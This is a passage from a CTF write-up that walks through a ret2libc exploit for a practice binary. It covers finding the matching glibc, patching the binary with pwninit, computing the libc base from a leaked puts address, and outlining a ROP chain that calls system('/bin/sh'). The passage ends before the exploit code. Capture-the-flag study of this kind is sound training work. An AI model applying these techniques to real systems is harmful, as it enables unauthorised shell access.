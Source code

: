 ![libcDBSearch](/images/libriddle-osctf/libcDBSearch.png)

Searching in the DB gave us 3 results, however these three versions of glibc has the same offsets/address.

![Same Offsets](/images/libriddle-osctf/sameOffset.png)

So just take one of it and use it to proceed for the shell dropping phase. After downloading one of the glibc, we need to patch the program so it will use the correct glibc and not the default one in our machine. To achieve this just use `pwninit` https://github.com/io12/pwninit and run the command:-

```bash
pwninit --binary challenge --libc libc6_2.31-0ubuntu9.14_amd64.so
```

Before Patching:-
```bash
$ ldd challenge
	linux-vdso.so.1 (0x00007ffdaf9a8000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb3228a2000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fb322aa2000)

```

After the patch:-

```bash
ldd challenge_patched 
	linux-vdso.so.1 (0x00007ffc6f49d000)
	libc.so.6 => ./libc.so.6 (0x00007ffbf52dc000) # the program uses the glibc we found
	./ld-2.31.so => /lib64/ld-linux-x86-64.so.2 (0x00007ffbf54d0000)
```

## Dropping Shell

The glibc version same as the deployed CTF machine has been gained and patched, it is now time to drop a shell in the program. First the libc base address is needed. But since the `puts` function already been leaked, all that is left is just mathematics

LibC Base Address = Leaked Puts Address - Puts Offsets in LibC 

```python
libc.address = leaked_puts - libc.sym['puts']
```

Now the base address of LibC has been gained. Every information needed for the Ret-2-LibC attack has been acquired. The payload will be

1. Padding up RIP
2. pop rdi; ret gadget
3. 'binsh' string location appended
4. libC system address

steps 2-4 for the payload can be easily done with `pwntools` ROP chain function. After send the payload. The code implementation as follows:-
